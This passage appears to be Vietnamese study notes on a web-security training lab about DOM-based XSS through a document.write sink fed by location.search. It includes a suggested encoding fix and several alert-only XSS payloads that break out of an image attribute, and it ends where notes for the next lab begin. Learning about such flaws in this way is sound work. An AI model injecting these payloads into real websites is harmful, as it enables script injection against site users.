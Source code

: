 ```
   ```
       <script>
                        function trackSearch(query) {
                            document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
                        }
                        var query = (new URLSearchParams(window.location.search)).get('search');
                        if(query) {
                            trackSearch(query);
                        }
                    </script>
   ```

   + sink : document.write trong tracksearch function
  
  => query không được thoát đúng cách 

> solution cơ bản

        // Escape dữ liệu trước khi sử dụng
        var safeQuery = encodeURIComponent(query);
        document.write('<img src="/resources/images/tracker.gif?searchTerms=' + safeQuery + '">');

> Exploit:

payload: 

    "><script>alert("hello")</script>

    or

    "><svg onload=alert(1)>

    or

    bla" onload="alert()

final payload:

      "><img src=x onerror=alert("hello")>

sau khi chèn payload thì cấu trúc sẽ là thế này ```document.write('<img src="/resources/images/tracker.gif?searchTerms=' + query + '">');```

=> svg: à một định dạng hình ảnh vector dựa trên XML được sử dụng để hiển thị đồ họa hai chiều trên web. Không giống như các định dạng hình ảnh raster (như JPEG hoặc PNG) dựa trên pixel, đồ họa vector được tạo ra bằng các hình học như điểm, đường, và hình khối, cho phép chúng mở rộng mà không bị mất chất lượng

![345132867-b6eddd84-1c74-4664-9ca5-d0eb16711a18](https://github.com/user-attachments/assets/1f955c5f-c344-4ac1-9e54-65bdf78020ab)

=> solve lab 3

# Lab 4: DOM XSS in innerHTML sink using source location.search

>  This lab contains a DOM-based cross-site scripting vulnerability in the search blog functionality. It uses an innerHTML assignment, which changes the HTML contents of a div element, using data from location.search.

> To solve this lab, perform a cross-site scripting attack that calls the alert function.

+ step 1: Recon

   ```